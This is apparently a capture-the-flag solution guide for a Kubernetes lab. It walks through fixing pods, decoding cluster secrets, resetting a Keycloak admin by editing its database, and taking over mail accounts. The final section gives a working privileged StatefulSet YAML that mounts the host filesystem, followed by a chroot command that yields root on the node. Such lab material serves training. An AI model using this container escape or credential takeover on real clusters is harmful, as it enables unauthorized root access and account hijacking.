


# Now This is Pod Racing

*Solution Guide*

## Overview

Fix a partially-complete Kubernetes cluster by performing two tasks and using an exploit to access the Kubernetes node.

## Before you begin

In the gamespace, on the `Challenger-Kali` VM, install `kubectl` and `docker.io`.  You'll use these many times in this challenge.

```bash
sudo apt install docker.io kubernetes-client -y
```

Browse to `challenge.us` and download `landingspace.kubeconfig`. You need this to access the first namespace on the node, `landingspace`.

Create the directory: `/home/user/.kube`. Place `landingspace.kubeconfig` in that directory and rename it `config`. This is so `kubectl` can use the correct context. You can also use `--kubeconfig=<insert-name-of-kubeconfig-file-here>` if you like. In our case, we also created a `landingspace` folder to keep track of artifacts related to this namespace but, this is not required. 

```bash
mkdir /home/user/Downloads/landingspace/
mv /home/user/Downloads/landingspace.kubeconfig /home/user/Downloads/landingspace/
mkdir /home/user/.kube
cp /home/user/Downloads/landingspace/landingspace.kubeconfig /home/user/.kube/config
```

Verify you can access the `landingspace` namespace by running: `kubectl get pods`. 

## Question 1

*Get the first flag after fixing the pod within the namespace "landingspace".*

1. To understand what permissions we have inside the cluster with the given `landingspace.kubeconfig` context, execute: 

```bash
kubectl auth can-i --list
```

After running the command above, you will have permissions to perform all actions related to `pods/exec` and `pods/logs`. Additionally, you will only have permissions to `patch`, `get`, `list`, and `watch` pod resources. Write this information down.

2. Get the available pods in the `landingspace` namespace by running: 

``` bash
kubectl get pods
```

A pod named `firstpod` has problems starting. Let's find out why.

3. Run:

``` bash
kubectl logs firstpod 
```

The command above tells you the pod is failing to pull the image. Let's see what image the pod trying to pull next.

4. Run: 

``` bash
kubectl describe pod firstpod
```

The results display valuable information about this pod. Scroll up until you see the `Containers:` section; this is where you see the image pulled by this pod: `registry.merch.codes:5000/landingspace:latest`. 

The challenge instructions tell us the discovered Docker registry is: `https://registry.merch.codes:5000/`. We will use this link to see what images are available.

5. In Firefox, open a new tab and search by `https://registry.merch.codes:5000/v2/_catalog`. This displays all the current image repositories hosted in this registry and available to use:



As you can see, there is no repository called `landingspace` in the registry. 

6. Since we have permissions to `patch` pods, we might be able to patch this pod to make it use an available image. Let's see the `YAML` configuration of this pod first to understand the format and details. Save the output to a file called `firspod.yaml` to read it later: 

``` bash
kubectl get pod firstpod -o yaml > /home/user/Downloads/landingspace/firstpod.yaml
```

Click [here](./artifacts/firstpod.yaml) to view the output of the command above. (Numbers were added to each line to reference them in later steps.)

In `firstpod.yaml`, there are a couple lines that are helpful for future steps. 

- Lines 142-150 tell us the flag will be printed in the pod logs.
- Lines 138, 139, and 151 allow us to understand the path to patch the container image with the desired one. 
- Lines 157-165 talk about volume mounts for what looks like `secondspace` namespace artifacts.
- Lines 189-208 discuss the volumes from some configmaps. 

7. Let's focus now on patching the pod with our desired image. We will use the Ubuntu image found inside the given registry. Do this with the following command: 

``` bash
kubectl patch pod firstpod --type='json' -p='[{"op": "replace", "path": "/spec/containers/0/image", "value":"registry.merch.codes:5000/ubuntu:latest"}]'
```

8. The pod is now running: 

``` bash
kubectl get pods
```

9. Now, as mentioned above, lines 142-150 allowed you to understand that the first flag will be printed in the pod logs, which you have permissions to see. Execute: 

``` bash
kubectl logs firstpod
```

You could also `exec` into the pod and `echo` the flag using the environment variable as shown in line 142:

``` bash
kubectl exec -it firstpod -- /bin/bash
echo $landingspace
```

You have successfully found the first flag after fixing the pod named: `firstpod`.

## Question 2

*After standing up the email server, resetting the superadmin user credentials and obtaining access to the email accounts, retrieve the second flag.*

We will divide the procedure for retrieving the second flag into three parts: 

1. Standing up the email server
2. Restarting superadmin credentials
3. Retrieving the the second flag

### 1. Standing up the email server

After fixing `firstpod`, we can explore the other important details we found in the YAML configuration. Reviewing lines 157-165 and 189-208, we noticed some files were uploaded to the following directories inside `firstpod`. 

- The files in the `landingspace-config-volume` got mounted into `/opt/secondspace/` directory.
- The files in the `secondspace-deployments-volume` got mounted into `/opt/secondspace-deployments/` directory.
- The files in the `secondspace-services-volume` got mounted into `/opt/secondspace-services/` directory.
- The files in the `secondspace-ingresses-volume` got mounted into `/opt/secondspace-ingresses/` directory.

Follow the numbered steps below:

1. `exec` into `firstpod` and see how it looks: 

``` bash
kubectl exec -it firstpod -- /bin/bash
ls -la /opt/
```



Inside the `secondspace` directory is a new Kubernetes context called `secondspace.kubeconfig` and, inside `secondspace-deployments`, `secondspace-services` and `secondspace-ingresses`, are the files needed to stand up the email server. Execute the following commands to download these files. 

2. First, exit `firstpod`: 

``` bash
exit
```

3. From the Kali terminal, enter the following commands: 
   
``` bash
mkdir /home/user/Downloads/secondspace/

kubectl exec firstpod -- tar czhf files.tar.gz -C /opt .

kubectl cp firstpod:files.tar.gz /home/user/Downloads/secondspace/files.tar.gz

tar zxvf /home/user/Downloads/secondspace/files.tar.gz -C /home/user/Downloads/secondspace/
```

4. Start using the newly obtained context and see what permissions you have: 

``` bash
cp /home/user/Downloads/secondspace/secondspace-config/secondspace.kubeconfig /home/user/.kube/config

kubectl auth can-i --list
```

You have more permissions, including: creating pods, deployments, services, and ingresses. Those permissions will allow you to stand up the email server using the found files. 

5. To see if there are any pods running already in this namespace, enter the following command: 

``` bash
kubectl get pods
```

There is a `Postgres` pod with an `Unknown` status. 

6. Check if there's a deployment for this pod: 

``` bash
kubectl get deployments
```

7. The Postgres deployment says `0/1` deployments are ready. Try restarting this deployment:

``` bash
kubectl rollout restart deployment postgres
```

That should have worked! You now have the Postgres database running. You will need it to standup the email server. If you see the Postgres deployment in a *stuck* `Terminating` state, run the following command to force remove it. Your pod name will be different; make sure you use your pod name:

```
kubectl delete pod postgres-587f4b6f7d-ms86d --force
```

> It is highly recommended that you read and explore each of the deployments, services, and ingress files retrieved from `firstpod`. This will help you understand how each of these services is connected with the other, default passwords for these apps, domains, ports, and more. We will assume, for the purposes of this solution guide, that you reviewed these documents. 

8. Stand up the email server using the following commands: 

``` bash
kubectl apply -f /home/user/Downloads/secondspace/secondspace-deployments/
kubectl apply -f /home/user/Downloads/secondspace/secondspace-services/
kubectl apply -f /home/user/Downloads/secondspace/secondspace-ingresses/
```

After a minute or so, all pods should be running. We are told we need to somehow obtain access to the mail server.

### 2. Restarting superadmin credentials

The Keycloak deployment works like this: if the admin user (`superadmin`, in our case) exists, it skips creating that user; but, if that admin user *doesn't* exist, it is created and added to the database with the provided credentials. Our goal is to remove this user and all its references from the Keycloak database and restart the Keycloak deployment to trigger the admin user creation that uses default credentials. 

1. In Firefox, browse to:`https://mail.merch.codes`. You are redirected to a Keycloak login page. This indicates that Keycloak is managing the email server users. You still don't have any credentials to access any email account. 

Since we want to view these credentials, our best bet is to obtain access to the Keycloak admin account. We have already been given the username: `superadmin`. 

2. If we read the `keycloak-secret`, we can obtain the default password used to create this admin account.

``` bash
kubectl get secret keycloak-secret -o yaml
```

Near the top, see the following: 

``` YAML
KEYCLOAK_ADMIN_PASSWORD: dGFydGFucw==
```

3. Execute the following command to decode this password: 

``` bash
echo "dGFydGFucw==" | base64 -d
```

After decoding the string above, the default password should be `tartans`; however, after trying to log in with these credentials, it seems the admin changed the password. Let's try restarting this password by editing the database directly. 

4. Go to `https://db.merch.codes` and log in with the default credentials you found for this application: `admin@merch.codes`/`tartans`.
5. Add a new server (click `Add New Server` on the Home Screen of pgadmin). You can add any server name you want under the `General` tab, but, we used `DB`.
6. Next, go to the `Connection` tab. For the hostname, enter `postgres-service`. For port, enter `5432`. Username, enter `root` and, for password, enter `tartans`.  The hostname and port can be found by executing the following command: 

``` bash
kubectl get services -o wide | grep postgres
```

7. And, for the username and password, you'll see them in the *secrets* used by the Postgres deployment.

``` bash
kubectl get secrets postgres-secret -o yaml 
```

Near the top...

``` YAML
postgres-root-password: dGFydGFucw==
postgres-root-username: cm9vdA==
```

8. Execute the following commands to decode them: 

``` bash
echo "dGFydGFucw==" | base64 -d
echo "cm9vdA==" | base64 -d
```

...and you get the following credentials: `root/tartans`.

9. After adding the new server to `https://db.merch.codes/` (pgadmin), go to: `Servers`, `<Your chosen Server name>`, `Databases`, `keycloak_db`, `Schemas`, `public` , `Tables`. 

There are *a lot* of tables to chose from. For the purpose of this solution guide, we already determined which tables contain the `superadmin` user and which tables include references to this user. 

10. First, let's find the `superadmin` user. Go to `Servers` , `<Your chosen Server name>` , `Databases` , `keycloak_db` , `Schemas` , `public` , `Tables` , `user_entity` and, right click it. Click `View/Edit Data` then `All Rows`. The `user_entity` table should now be visible. 
11. Identify the `superadmin` user row and take note of the `Id`. Trying to delete this row now will show you an error saying there are still references to this user in the `user_role_mapping` table and won't actually remove this row until this is taken care off. Let's take care of that now. 
12. Go to `Servers` , `<Your chosen Server name>` , `Databases` , `keycloak_db` , `Schemas` , `public` , `Tables` , `user_role_mapping` and right-click. Click  `View/Edit Data` then `All Rows`. The `user_role_mapping` table should now be visible. 
13. Since we know the `user_Id` of the `superadmin` user, we can delete the rows containing this. In our case, these rows start with `992212ff`. To select the entire row, click the row number on the left of the `role_id` column. The entire row should now be highlighted in blue. 
14. Next, hover over the icons above the `role_Id` column. You should see icons for adding rows, copying rows, pasting, deleting, saving, and more.
16. Click `Delete`. Make sure you only select the row you want to delete. If there is more than one row containing the `superadmin` id, make sure to delete that one as well. 

>  **Caution!** Make sure you do ***not*** delete other rows unrelated to `superadmin`. Doing so might delete other users information and prevent you from completing remaining parts of this challenge. 

17. After the row is removed, click the `Save Data Changes` button next to the `Delete` button. 

18. Repeat the steps, but for the `credential` table. Go to `Servers` , `<Your chosen Server name>` , `Databases` , `keycloak_db` , `Schemas` , `public` , `Tables` , `credential` and, right-click. Click `View/Edit Data` and then on `All Rows`. The `credential` table should now be visible. Remove the row containing the `superadmin` details. 

19. Finally, go back to the `user_entity` table, delete the `superadmin` user, and save your changes. 

20. If you restart the Keycloak deployment, it recreates the `superadmin` user with the default password of `tartans`. Do so by going to the Kali terminal and typing the following: 

``` bash
kubectl rollout restart deployment keycloak
```

You could also delete the Keycloak deployment and reapply it,  like this: 

``` bash
kubectl delete deployment keycloak
kubectl apply -f /home/user/Download/secondspace/secondspace-deployments/
```

21. Once Keycloak is up, go to `https://keycloak.merch.codes` and log in with user/password: `superadmin`/`tartans`. You should be successful. 

### 3. Retrieving the second flag

Like mentioned above, if you access `https://mail.merch.codes`, you will be redirected to `https://keycloak.merch.codes/` along with other details in the URL. The URL will look like this one: 

`https://keycloak.merch.codes/realms/services/protocol/openid-connect/auth?&response_type=code&client_id=roundcubemail&scope=openid+profile+email&redirect_uri=https%3A%2F%2Fmail.merch.codes%2Findex.php%2Flogin%2Foauth&state=M4uT12UVG6kI`

The important detail about the URL above is that it is using the `service` realm. We need that for the next steps. 

1. Once inside Keycloak, on the top left you can change the Realms. Change from `master` to `services`. 
2. From the `services` Realm, on the left navigation bar, click the **Users** tab.

Here you will see two users: `otherguy` and `supersecretuser`. If you try log into either of those emails, you find out you don't know their credentials. Since you are now an admin, you can reset those. 

3. Click `otherguy` and then, on the top navigation bar, click **Credentials**.
4. Click `Reset password` and type the new password. We chose `tartans`. Make sure you turn the `Temporary` toggle to `Off`.
5. Save changes and repeat for the `supersecretuser` user.
6. Since we now know the credentials of these users, let's access their email accounts. Start with `otherguy`.
7. In Firefox, browse to `https://mail.merch.codes`. 

8. Sign in with user `otherguy` and your chosen password. In our case, `tartans`. You will be able to sign in this time. 
9. In the Inbox, one email contains the `finalspace.kubeconfig`. 
10. In Sent mail, you will also see an email. This email contains the second flag.

## Question 3

*Obtain root access to the Kubernetes cluster to retrieve the final flag under /root/flag*

Assuming you have downloaded the `finalspace.kubeconfig` file found in the emails, you can start the final part: exploiting the Kubernetes cluster and obtaining root permissions. 

1. First, make sure you are using the `finalspace.kubeconfig`. Like in previous steps, we are creating a directory specifically for this part of the challenge and moving all artifacts to it: 

``` bash
mkdir /home/user/Downloads/finalspace

mv /home/user/Downloads/finalspace.kubeconfig /home/user/Downloads/finalspace/finalspace.kubeconfig

cp /home/user/Downloads/finalspace/finalspace.kubeconfig /home/user/.kube/config
```

2. Using the latest Kubernetes configuration, see what permissions we have: 

```bash
kubectl auth can-i --list
```

We don't have as much resources permission as we had with the `secondspace.kubeconfig`. However,  we do have permissions to resources we didn't have before, such as being able to `exec` into pods. And, we can do everything to `statefulsets`. 

Since our goal is to exploit the cluster to obtain root access, we can use a "proof of concept" that allows us to create pods by taking advantage of `statefulsets`. This will mount the Kubernetes host filesystem to the pod and, essentially allow us to get a root shell on the `k3s-server`. Here's how:

3. Create a new yaml file: 

``` bash
touch /home/user/Downloads/finalspace/badpod.yaml
```

4. Using your preferred text editor, paste the following YAML inside the file: 

``` yaml
apiVersion: apps/v1
kind: StatefulSet
metadata:
  name: everything-allowed-exec-statefulset
  labels:
    app: pentest
    type: statefulset
spec:
  serviceName: "pentest"
  replicas: 2
  selector:
    matchLabels:
      app: pentest
      type: statefulset
  template:
    metadata:
      labels:
        app: pentest
        type: statefulset
    spec:
      hostNetwork: true
      hostPID: true
      hostIPC: true
      containers:
      - name: everything-allowed-exec-statefulset
        image: registry.merch.codes:5000/ubuntu:latest
        securityContext:
          privileged: true
        volumeMounts:
        - mountPath: /host
          name: noderoot
        command: [ "/bin/sh", "-c", "--" ]
        args: [ "while true; do sleep 30; done;" ]
      volumes:
      - name: noderoot
        hostPath:
          path: /
```

5. Deploy the `statefulset`: 

``` bash
kubectl apply -f /home/user/Downloads/finalspace/badpod.yaml
```

6. Verify the pods got created (even though we have no permissions to create pods) by typing: 

``` bash
kubectl get pods
```

You will see two pods.

7. `exec` into one of the pods to obtain root access to the `k3s-server` cluster. 

``` bash
kubectl exec -it everything-allowed-exec-statefulset-0 -- chroot /host bash
```

You land inside the `k3s-server` as the root user.

8.  From inside the `k3s-server`, run the following command to retrieve the last flag: 

```bash
cat /root/flag
```

You will successfully obtain the last flag!